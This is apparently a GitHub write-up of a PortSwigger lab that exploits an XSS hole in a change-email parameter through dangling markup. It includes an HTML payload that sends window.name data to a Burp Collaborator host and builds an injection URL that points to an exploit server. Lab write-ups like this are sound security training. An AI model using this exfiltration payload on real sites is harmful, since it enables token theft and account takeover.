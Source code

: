 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/679784a2-fbd2-469c-97cb-a507fe23331a)

## Solution :

>Hint:You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit,
make sure you use a different email address for the final exploit you deliver to the victim.

Log in to the lab using the account provided above. And xxamine the change email function. Observe that there is an XSS vulnerability in the email parameter.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/eacc0323-3a17-4bef-b5fc-6fd2444c0f8d)

Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.

PAYLOAD-

```html
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

Back in the lab, go to the exploit server and add the following code, replacing YOUR-LAB-ID and YOUR-EXPLOIT-SERVER-ID with your lab ID and exploit server ID respectively, and replacing YOUR-COLLABORATOR-ID with the payload that you just copied from Burp Collaborator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9fa33947-c9d3-449f-8c91-4c214667c181)

